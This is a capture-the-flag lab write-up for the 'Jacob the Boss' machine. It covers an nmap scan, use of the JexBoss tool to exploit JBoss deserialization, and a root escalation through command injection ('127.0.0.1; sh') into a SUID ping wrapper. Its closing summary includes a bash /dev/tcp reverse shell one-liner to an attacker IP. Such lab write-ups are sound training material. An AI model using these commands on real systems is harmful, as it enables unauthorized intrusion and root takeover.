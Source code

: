 # Jacob the Boss

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Insecure Deserialization`,  `Java Serialization`,  `JBoss`,  `JexBoss`

---

##### Written: 15/01/2022

##### IP address: 10.10.129.18

---

### [ Set Up ]

The room tells us to add `jacobtheboss.box` to our /etc/hosts file:

<img style="float: left;" src="screenshots/screenshot1.png">

---

### [ user.txt ]

Let's begin with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.129.18
```

**Results:**

```
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
[REDACTED]
80/tcp    open  http         syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
1090/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
1099/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
[REDACTED]
3306/tcp  open  mysql        syn-ack ttl 61 MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
4445/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 61 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 61 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 61
[REDACTED]
8009/tcp  open  ajp13        syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
36592/tcp open  java-rmi     syn-ack ttl 61 Java RMI
37259/tcp open  unknown      syn-ack ttl 61
38292/tcp open  landesk-cba? syn-ack ttl 61
```

It looks like there are a whole slew of ports open. What really interests me though, are ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP)** and **8083 (JBOSS)**

Let's first visit `http://jacobtheboss.box`:

<img style="float: left;" src="screenshots/screenshot2.png">

We have a blog page powered by Dotclear (https://dotclear.org).

I decided to skip enumerating this website first as there was something else that caught my attention. I noticed that **JBoss** was running on the target machine (port 8083)!

---

*Boss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.*

---

From past experiences, I know that certain versions of JBoss are susceptible to **Java deserialization** vulnerabilities. These vulnerabilities allow unauthenticated attackers to achieve remote code execution. In order for us to exploit these vulnerabilities, we need to have the **Apache Tomcat/Coyote JSP engine** (port 8080) and **JBoss** (port 8083) services running.

Next, I did some research online and found a really nifty tool called **JexBoss** (https://github.com/joaomatosf/jexboss). This tool automatically scans for and exploit vulnerabilities in the JBoss application server. Let's use it on our target machine:

```
python jexboss.py -u http://10.10.129.18:8080 
```

<img style="float: left;" src="screenshots/screenshot3.png">

We can see that JexBoss has managed to find 3 vulnerabilities with the JBoss server: **web-console**, **jmx-console**, **JMXInvokerServlet**

It asks if we would like to run an automated exploitation via the web-console.

Upon doing so, it will automatically try to set up a reverse shell for us:

<img style="float: left;" src="screenshots/screenshot4.png">

Fortunately, the exploit worked and our reverse shell was successfully opened:

<img style="float: left;" src="screenshots/screenshot5.png">

Now that we're in, we can obtain **user.txt** from jacob's home directory:

<img style="float: left;" src="screenshots/screenshot6.png">

---

### [ root.txt ]

Now let's figure out a way to escalate our privileges.

I first looked around the file system but was unable to find any interesting files. There was also only 1 non-root user on the machine (jacob), so we also can't move laterally to other accounts.

Next, I searched for files with their **SUID-bit** set:

```
find / -type f -perm /u=s 2>/dev/null
```

<img style="float: left;" src="screenshots/screenshot7.png">

I noticed an interesting binary called `pingsys`.

By the name, I assumed that it ran like `ping`. Let's test it out:

```
pingsys 127.0.0.1
```

<img style="float: left;" src="screenshots/screenshot8.png">

Yep, it functions exactly like `ping`!

I then used `strings` to analyze this binary in greater detail:

<img style="float: left;" src="screenshots/screenshot9.png">

We can see that `pingsys` actually appends the user input (IP address) to the `ping` command directly. 

This is a huge vulnerability as we can exploit this to run other commands on the shell by using `;` as a delimiter. Since `pingsys` is run as root, our commands run will also be privileged.

We'll run `pingsys` like such:

``` 
pingsys '127.0.0.1; sh'
```

Now during execution, `pingsys` will append our input to `ping`, resulting in the following command being run on the shell:

```
ping -c 4 127.0.0.1; sh
```

Because of the delimiter `;`, after `ping` has finished running, the second command `sh` will be run, which will open a shell as root:

<img style="float: left;" src="screenshots/screenshot10.png">

We've successfully escalated our privileges! 

We can now obtain **root.txt** from /root:

<img style="float: left;" src="screenshots/screenshot11.png">















1. use jexboss with any vulnerability
2. Open reverse shell

```
bash -i >& /dev/tcp/10.4.6.205/4444 0>&1
```

3. Upgrade to interactive shell
4. find suid-bit set files: pingsys
5. use strings on file
6. Notice that user input is directly appended to 'ping' command
7. Simple input '127.0.0.1; sh'

